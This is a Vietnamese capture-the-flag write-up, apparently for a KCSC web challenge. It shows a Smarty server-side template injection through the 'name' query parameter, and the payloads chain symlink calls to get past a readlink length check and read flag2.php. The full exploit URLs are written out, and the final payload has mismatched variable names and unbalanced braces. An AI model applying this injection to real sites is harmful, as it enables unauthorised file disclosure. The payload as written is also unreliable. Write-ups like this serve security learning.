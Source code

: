 xin chào các bạn:< bài này sau giải mình mới làm được sau một đêm mò mẫn ở portswigger
Bài này là nối tiếp với các bài trước nha hint từ bài trước là //flag2.php.bak

đầu tiên mình sẽ get route
                                        /?source=flag2.php.bak
Thì như src trước nếu mà name bạn bắt đầu bằng kcsc thì sẽ allow_function trong file flag2.php như này
ban đầu theo tự duy là mình sẽ dùng symlink ![Alt text](image-7.png) để gắn link symbolic cho file này nên mình định như này /?

![Alt text](image-8.png)
name=kcsc{symlink("/var/www/app/../../www/app/../../www/app/../../www/app/../../www/app/../../www/app/../../www/app/../../www/app/../../www/app/../../www/app/../../www/app/../../www/app/../../www/app/../../www/app/../../www/app/../../www/app/flag2.php","hihihi")}{debug("hihi")} mà không được sau khi đọc docs và tham khảo thêm :< thì mình sẽ gắn symlink mình đã dựng lại trên server khác dùng file Smarty mình kiếm được trên routes /composer.json và .lock(các bạn có thể tìm bản 4.3.4 trên github cũng được nha)

Cú pháp khai báo biến trong smarty(php)
                                        {assign var=ten_bien value="Gia_tri_cua_bien"}
Yêu cầu của hàm debug : $imput không chứa kí tự ".", và "/" và độ dài khi readlink($input)>=128
và sau đó mình đã thử lại thì như sau
                                        /?name=kcsc{assign var="a" value="flag2.php"}{assign var="b" value="hihihihihiihihhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh"}{assign var="z" value="hihi"}{symlink($x,$y){symlink($y,$z)}{debug("hihi")}
sau đó mở sources:trang web lên và lấy flag trong cmt nhá ^^

giải thích một chút về hàm symlink: nó sẽ trỏ đến vị trí của một file khác kiểu như linkruts gọn ấy:v thì khi tạo xong sẽ có tên file đó màu xanh ở trong file đích
còn cơ chế trên là :
sẽ gắn link cho file flag2.php là "hihihiihihihhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh" sau đó gắn link của hihi là "hihihihiiiiiiiiiiiihhhhhhh" thì theo quy tắc bắc cầu thì hihi sẽ trỏ đến flag2.php

Khi mà check đầu tiên ấy : thì check $input=hihi để không dính "invalid partten"

Check thứ 2 : realink sẽ lấy symbolink của $input là hihhihihhiihih"128 kí tự trở lên nha không thì không chạy được show_file_contents";

cảm ơn đã theo dõi^^


